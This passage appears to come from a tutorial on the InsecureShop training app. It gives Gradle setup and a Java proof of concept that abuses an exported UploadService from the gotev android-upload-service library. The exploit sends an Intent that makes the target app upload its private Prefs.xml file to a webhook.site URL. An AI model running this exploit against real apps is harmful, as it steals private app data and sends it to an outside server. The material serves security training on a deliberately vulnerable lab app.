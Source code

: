 [https://github.com/gotev/android-upload-service/releases?page=4](https://github.com/gotev/android-upload-service/releases?page=4)

At the beginning, you have to import this library into your code with by editing the `settings.gradle` and adding the dependencies to the `build.gradle` file:

```java
dependencyResolutionManagement {
    repositoriesMode.set(RepositoriesMode.FAIL_ON_PROJECT_REPOS)
    repositories {
        google()
        mavenCentral()
        maven { url 'https://jitpack.io' }
        jcenter() // Warning: this repository is going to shut down soon
    }
}
rootProject.name = "gotevUploadServiceExploit"
include ':app'
```

```java
dependencies
{
    implementation 'com.github.gotev.android-upload-service:uploadservice:3.2.3'
}
```

Finally, hit sync Gradle, then move to edit the POC provided by the Hackerone researcher and try to steal the `Prefs.xml` file:

```java
package com.insecureshopapp.gotevuploadserviceexploit;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import java.io.FileNotFoundException;
import net.gotev.uploadservice.HttpUploadTaskParameters;
import net.gotev.uploadservice.UploadFile;
import net.gotev.uploadservice.UploadTaskParameters;

public class MainActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        UploadTaskParameters params = new UploadTaskParameters();
        // Random Id parameter
        params.setId("18888998");
        
        // Any Server URL to receive the local file
        params.setServerUrl("http://webhook.site/4f08c75a-a478-4f6f-93bb-2ee8eba6fa4b");
        try {
            params.addFile(new UploadFile("/data/data/com.insecureshop/shared_prefs/Prefs.xml"));
            Intent intent = new Intent("net.gotev.uploadservice.action.upload");
            intent.setClassName("com.insecureshop", "net.gotev.uploadservice.UploadService");
            intent.putExtra("taskClass", "net.gotev.uploadservice.MultipartUploadTask");
            intent.putExtra("multipartUtf8Charset", true);
            intent.putExtra("httpTaskParameters", new HttpUploadTaskParameters());
            intent.putExtra("taskParameters", params);
            startService(intent);
        } catch (FileNotFoundException e) {
            throw new IllegalStateException(e);
        }
    }

```